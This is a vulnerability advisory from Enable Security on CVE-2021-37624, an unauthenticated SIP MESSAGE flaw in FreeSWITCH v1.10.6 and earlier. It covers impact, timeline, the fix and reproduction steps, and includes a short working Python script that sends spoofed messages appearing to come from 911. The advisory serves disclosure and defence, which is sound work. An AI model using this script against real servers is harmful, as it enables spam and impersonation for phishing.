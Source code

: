 # FreeSWITCH does not authenticate SIP MESSAGE requests, leading to spam and message spoofing

- Fixed versions: v1.10.7
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-07-freeswitch-SIP-MESSAGE-without-auth
- Vendor Security Advisory: https://github.com/signalwire/freeswitch/security/advisories/GHSA-mjcm-q9h8-9xv3
- Other references: CVE-2021-37624
- Tested vulnerable versions: <= v1.10.6
- Timeline:
    - Report date: 2021-06-07
	- Fix provided for testing: 2021-07-27
	- Vendor release with fix: 2021-10-24
	- Enable Security advisory: 2021-10-25

## Description

By default, SIP requests of the type MESSAGE (RFC 3428) are not authenticated in the affected versions of FreeSWITCH. MESSAGE requests are relayed to SIP user agents registered with the FreeSWITCH server without requiring any authentication. Although this behaviour can be changed by setting the `auth-messages` parameter to `true`, it is not the default setting.

## Impact

Abuse of this security issue allows attackers to send SIP MESSAGE messages to any SIP user agent that is registered with the server without requiring authentication. Additionally, since no authentication is required, chat messages can be spoofed to appear to come from trusted entities. Therefore, abuse can lead to spam and enable social engineering, phishing and similar attacks.

We are issuing this advisory because, in the course of our work, we have noticed that most FreeSWITCH installations that are exposed to the Internet do not authenticate MESSAGE requests.

## How to reproduce the issue

1. Install FreeSWITCH v1.10.6 or lower
2. Run FreeSWITCH using the default configuration
3. Register as a legitimate SIP user with the FreeSWITCH server (e.g. `sip:1000@192.168.1.100` where `192.168.1.100` is your FreeSWITCH server) using a softphone that can process MESSAGE (such as Zoiper)
4. Save the below Python script to `anon-message.py`
5. Run the Python script `python anon-message.py <freeswitch_ip> <target_extension>`
6. Observe the SIP message appear on your softphone, pretending to be from 911


```python
import sys, socket, random, string

UDP_IP = sys.argv[1]
UDP_PORT = 5060
ext = sys.argv[2]
rand = ''.join(random.choice(string.ascii_lowercase) for i in range(8))
msg="MESSAGE sip:%s@%s SIP/2.0\r\n" % (ext, UDP_IP)
msg+="Via: SIP/2.0/UDP 192.168.1.159:46896;rport;branch=z9hG4bK-%s\r\n" % rand
msg+="Max-Forwards: 70\r\n"
msg+="From: 911 <sip:911@%s>;tag=%s\r\n" %(UDP_IP, rand)
msg+="To: <sip:%s@%s>\r\n" %(ext, UDP_IP)
msg+="Call-ID: %s\r\n" % rand
msg+="CSeq: 1 MESSAGE\r\n"
msg+="Contact: <sip:911@192.168.1.159:48760;transport=udp>\r\n"
msg+="Content-Type: text/plain\r\n"
msg+="Content-Length: 5\r\n\r\n"
msg+="hello"

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(msg.encode(), (UDP_IP, UDP_PORT))
```

## Solution and recommendations

Upgrade to a version of FreeSWITCH that fixes this issue.

Our suggestion to the FreeSWITCH developers was the following:

> Our recommendation is that this SIP message type is authenticated by default so that FreeSWITCH administrators do not need to be explicitly set the `auth-messages` parameter. When following such a recommendation, a new parameter can be introduced to explicitly disable authentication.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

